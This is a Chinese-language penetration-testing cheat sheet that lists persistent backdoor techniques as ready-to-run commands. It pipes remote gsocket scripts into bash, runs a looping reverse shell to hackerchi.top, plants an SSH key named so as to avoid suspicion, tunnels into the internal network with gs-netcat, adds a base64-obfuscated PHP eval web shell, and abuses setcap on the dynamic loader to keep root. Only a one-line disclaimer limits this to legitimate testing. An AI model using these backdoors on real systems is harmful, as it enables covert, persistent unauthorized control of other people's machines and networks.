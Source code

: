 # 后门技术

> ❝
>
> 在渗透测试中，建立持久的后门是至关重要的，以便在需要时重新访问系统。以下是一些常用的后门技术
>
> ❞

### 1.gs-netcat 自动部署脚本

gs-netcat 工具提供了一个方便的自动部署脚本，可以快速建立反向 shell 连接。

使用方法：

```bash
bash -c "$(curl -fsSLk <https://gsocket.io/y>)"
```

或者

```bash
bash -c "$(wget --no-check-certificate -qO- <https://gsocket.io/y>)"
```

部署您自己的 gsocket 服务器：

```bash
LOG=results.log bash -c "$(curl -fsSL <https://gsocket.io/ys>)"  # 注意 '/ys' 而不是 '/y'
```

### 2. 后台反向 shell

这种后门会在后台持续尝试连接回攻击者的服务器，即使连接断开也会自动重连。

示例：

```bash
setsid bash -c 'while :; do bash -i &>/dev/tcp/hackerchi.top/1524 0>&1; sleep 360; done' &>/dev/null
```

防止多个实例启动：

```bash
fuser /dev/shm/.busy &>/dev/null || nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; bash -i &>/dev/tcp/hackerchi.top/1524 0>&1 ; sleep 360; done' &>/dev/null &
```

### 3. 授权密钥

将攻击者的 SSH 公钥添加到目标系统的 */root/.ssh/authorized_keys* 文件中，可以实现持久的后门访问。

提示： 将公钥文件末尾的名称更改为一些不起眼的名称，例如 *backup@ubuntu* 或管理员的真实姓名，以避免引起怀疑。

示例：

```bash
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCktFkgm40GDkqYwJkNZVb+NLqYoUNSPVPLx0VDbJM0
[...]
u1i+MhhnCQxyBZbrWkFWyzEmmHjZdAZCK05FRXYZRI9yadmvo7QKtRmliqABMU9WGy210PTOLMltbt2C
c3zxLNse/xg0CC16elJpt7IqCFV19AqfHnK4YiXwVJ+M+PyAp/aEAujtHDHp backup@ubuntu
```

### 4. 远程访问整个网络

使用 gs-netcat 工具可以在目标主机的专用 LAN 上创建一个 SOCKS 出口节点，从而允许攻击者从外部访问内部网络。

示例：

```bash
gs-netcat -l -S       # 在目标主机上运行
gs-netcat -p 1080    # 在攻击者工作站上运行

# 从攻击者工作站访问目标主机 LAN 上的 route.local:22
socat -  "SOCKS4a:127.1:route.local:22"
```

其他方法：

- Gost/Cloudflared： 使用 Cloudflare Tunnel 建立 TCP 隧道。
- 反向 Wireguard： 使用 Wireguard 建立反向连接，从 **segfault.net[1]** 访问内部网络。

### 5. 最小的 PHP 后门

将以下代码添加到任何 PHP 文件的开头，即可创建一个简单的后门：

```php
<?php $i=base64_decode("aWYoaXNzZXQoJF9QT1NUWzBdKSl7c3lzdGVtKCRfUE9TVFswXSk7ZGllO30K");eval($i);?>
```

测试：

```bash
### 启动测试 PHP 服务器
cd /var/www/html && php -S 127.0.0.1:8080
### 不执行命令
curl <http://127.0.0.1:8080/test.php>
### 执行命令
curl <http://127.0.0.1:8080/test.php> -d 0="ps fax; uname -mrs; id"
```

### 6. 本地根后门

一旦获得 root 权限，可以使用以下方法保持 root 状态：

执行以下命令：

```bash
setcap cap_setuid+ep /lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
```

成为 root 用户：

```bash
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /usr/bin/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

请注意，后门技术应仅用于合法的渗透测试和安全评估目的。未经授权使用后门是非法的，并可能导致严重后果。